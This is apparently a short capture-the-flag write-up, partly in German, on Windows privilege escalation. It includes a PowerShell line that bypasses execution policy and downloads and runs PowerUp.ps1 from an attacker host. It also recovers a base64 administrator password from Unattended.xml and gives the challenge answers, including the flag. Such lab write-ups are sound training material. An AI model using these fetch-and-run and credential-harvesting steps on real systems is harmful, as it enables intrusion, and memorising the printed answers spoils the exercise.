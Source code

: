 Wir nutzen Powershell Scripts um das System auszukundschaften. Dadruch können wir Angriffsvektoren finden und eventuell administrative Berechtigungen bekommen.

Answer the questions below
---

We will run [PowerUp1.ps1](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1) into memory for enumerating any weakness to abuse for local privilege escalation.

powershell -ep bypass;
iex​(New-Object Net.WebClient).DownloadString('http://YOUR_IP/PowerUp.ps1') 

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it here.

It is also where users passwords are stored in base64 encoding. Navigate to C:\Windows\Panther\Unattend\Unattended.xml.

![alt text](image.png)

1. What is the decoded password?

    **tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T**



    `echo "dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=" | base64 -d`

2. Now we have the Administrator's password, login as them and obtain the last flag.

    **THM{g00d_j0b_SYS4DM1n_M4s73R}**

